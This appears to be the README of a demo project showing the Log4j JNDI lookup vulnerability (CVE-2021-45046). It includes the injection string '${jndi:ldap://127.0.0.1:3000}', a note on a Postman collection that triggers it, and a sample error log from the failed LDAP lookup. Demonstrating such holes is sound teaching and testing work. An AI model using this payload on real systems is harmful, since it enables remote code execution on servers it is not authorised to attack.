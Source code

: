 # log4j-vuln-demo
Log4j vulnerability demo
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046

## CVE: CVE-2021-4428 | CVE-2021-45046
 
- [x] demo apache log4j2 vuln execute RCE via logs
 - [x] ```${jndi:ldap://127.0.0.1:3000}```
 - [x] postman collection for testing
 
## Local Startup

```
  ./gradlew bootRun
```

## Run postman collection local
- [x] log4j-vuln-jndi -> it will fire jndi lookup, 
    ``` try to fetch data from internal resource input```

## vuln example logs
```
2021-12-16 12:03:09,184 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1:3000]. javax.naming.CommunicationException: 127.0.0.1:3000 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at com.sun.jndi.ldap.Connection.<init>(Connection.java:245)
	at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1615)
	at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2847)
	at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:348)
	at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:202)
	at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
```